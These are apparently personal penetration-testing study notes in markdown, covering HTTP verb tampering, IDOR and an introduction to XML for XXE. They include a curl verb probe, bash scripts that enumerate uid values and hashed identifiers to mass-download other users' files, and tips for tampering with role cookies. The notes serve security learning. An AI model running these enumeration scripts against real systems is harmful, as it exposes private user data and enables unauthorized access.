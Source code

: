 # Web Attacks

## [HTTP Verb Tampering](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/03-Testing_for_HTTP_Verb_Tampering)

### [HTTP Request Methods](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Methods)

| Verb    | Description                                                                 |
|---------|-----------------------------------------------------------------------------|
| HEAD    | Identical to a GET request, but its response only contains the headers, without the response body |
| PUT     | Writes the request payload to the specified location                        |
| DELETE  | Deletes the resource at the specified location                              |
| OPTIONS | Shows different options accepted by a web server, like accepted HTTP verbs  |
| PATCH   | Apply partial modifications to the resource at the specified location       |

| Command | Description |
|---------|-------------|
| `-X OPTIONS` | Set HTTP Method with Curl |

### Example Vulnerability

The below code is designed to mitigate SQLi. However, it is only being applied to GET requests

``` php
$pattern = "/^[A-Za-z\s]+$/";

if(preg_match($pattern, $_GET["code"])) {
    $query = "Select * from ports where port_code like '%" . $_REQUEST["code"] . "%'";
    ...SNIP...
}
```

### Explointing

- Trial and error change Verb in intercepted requests in burp.
- `#!bash curl -i -X OPTIONS http://SERVER_IP:PORT/` to see what verbs are accepted.

## [Insecure Direct Object Referencing (IDOR)](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References)

### Identify IDORs

- In URL parameters & APIs (`?uid=1` or `?filename=file_1.pdf`)
- In AJAX Calls (find functions only available to admin users)
``` javascript
function changeUserPassword() {
    $.ajax({
        url:"change_password.php",
        type: "post",
        dataType: "json",
        data: {uid: user.uid, password: user.password, is_admin: is_admin},
        success:function(result){
            //
        }
    });
}
```
- By understanding reference hashing/encoding (`download.php?filename=c81e728d9d4c2f636f067f89cc14862c`)
``` javascript
$.ajax({
    url:"download.php",
    type: "post",
    dataType: "json",
    data: {filename: CryptoJS.MD5('file_1.pdf').toString()},
    success:function(result){
        //
    }
});
```
- By comparing user roles and api calls available to users, user 2 may not have the below api call available but if we know it exists we could attempt to make it whilst logged in as user 2.
``` json
{
  "attributes" : 
    {
      "type" : "salary",
      "url" : "/services/data/salaries/users/1"
    },
  "Id" : "1",
  "Name" : "User1"

}
```
- Predictable file naming patterns
``` html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
<!-- changing the get parameter uid from 1 to 2 may cause the available files to change to: -->
/documents/Invoice_2_09_2021.pdf
/documents/Report_2_10_2021.pdf
<!-- there may also be filters (uid_filter=1) that can be changed or removed to show other files -->
```

### Mass IDOR Enumeration

If we find the example files from the previous example in the html code:
``` html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```
We could write the following script to mass download them
``` bash
#!/bin/bash

url="$1" # bash script.sh http://STMIP:STMPO or http://URL to run command and pass the URL

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do # *? matches 0 or more of . (any char)
                wget -q $url/$link # http://SERVER_IP:PORT/
        done
done
```

### Hashed IDOR

The following function takes the IDOR value base64 encodes it and then hashes it.
``` javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```
In which case we would recreate that before passing the value:
``` bash
echo -n 1 | base64 -w 0 | md5sum
```
and pass the value to mass download files:
``` bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

### Insecure APIs

![API call](../images/idor-api-request.jpg)
- The above API is making updates (PUT /profile/api.php/profile/1) to Full Name, Email, and About Me.
- It has hidden parameters uid, uuid, and role.
- The role is also present as a cookin (Cookie: role=employee)
- We could try changing to a GET request and changing the endpoint to get other users details
- If we found an admins uuid we could then use that alon with changing the uid and role to make changes/create users that we couldn't as a user role.

| Command | Description |
|---------|-------------|
| `md5sum` | MD5 hash a string |
| `base64` | Base64 encode a string |

## [XML External Entity (XXE) Injection](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

### XML

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<email>
  <date>01-01-2022</date>
  <time>10:00 am UTC</time>
  <sender>john@inlanefreight.com</sender>
  <recipients>
    <to>HR@inlanefreight.com</to>
    <cc>
        <to>billing@inlanefreight.com</to>
        <to>payslips@inlanefreight.com</to>
    </cc>
  </recipients>
  <body>
  Hello,
      Kindly share with me the invoice for the payment made on January 1, 2022.
  Regards,
  John
  </body> 
</email>
```

| Key        | Definition                                                                 | Example                          |
|------------|----------------------------------------------------------------------------|----------------------------------|
| Tag       | The keys of an XML document, usually wrapped with </> characters.          | `<date>`                         |
| Entity    | XML variables, usually wrapped with &/; characters.                        | `&lt;`                             |
| Element   | The root element or any of its child elements, and its value is stored in between a start-tag and an end-tag. | `<date>01-01-2022</date>`         |
| Attribute | Optional specifications for any element that are stored in the tags, which may be used by the XML parser. | `version="1.0"/encoding="UTF-8"`  |
| Declaration | Usually the first line of an XML document, and defines the XML version and encoding to use when parsing it. | `<?xml version="1.0" encoding="UTF-8"?>` |
